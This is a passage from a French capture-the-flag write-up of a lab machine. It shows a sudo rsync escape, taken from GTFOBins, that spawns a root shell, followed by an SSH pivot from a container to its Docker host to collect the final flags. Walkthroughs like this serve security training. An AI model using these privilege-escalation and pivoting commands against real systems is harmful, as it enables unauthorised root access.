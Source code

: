 Une fois la permission sudo détournée (thx [GTFObin](https://gtfobins.github.io/gtfobins/rsync/)), j'obtiens un 3ème flag :

```console
p48@ef117d7a978f:~$ sudo rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
# id
uid=0(root) gid=0(root) groups=0(root)
# cd
# ls
flag3.txt
# cat flag3.txt
009a4ddf6cbdd781c3513da0f77aa6a2

Well done for getting the third flag. Are you any good at pivoting backwards?
```

Il faut alors se rappeller le message :

> The backup server has root access to this main server

Comme on est dans un container, on doit joindre l'adresse docker de l'hôte (en `.1`) :

```console
root@ef117d7a978f:~# ssh root@172.17.0.1    
Linux powergrid 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue May 26 18:15:49 2020
root@powergrid:~# ls
 chown.sh   flag4.txt   malware.php  'ystemctl status docker'
root@powergrid:~# cat flag4.txt 
f5afaf46ede1dd5de76eac1876c60130

Congratulations. This is the fourth and final flag. Make sure to delete /var/www/html/startTime.txt to stop the attack (you will need to run chattr -i /var/www/html/startTime.txt first).

 _._     _,-'""`-._
(,-.`._,'(       |\`-/|
    `-.-' \ )-`( , o o)
          `-    \`_`"'-

This CTF was created by Thomas Williams - https://security.caerdydd.wales

Please visit my blog and provide feedback - I will be glad to hear your comments.
```

C'est donc finit.

### Sous le capot
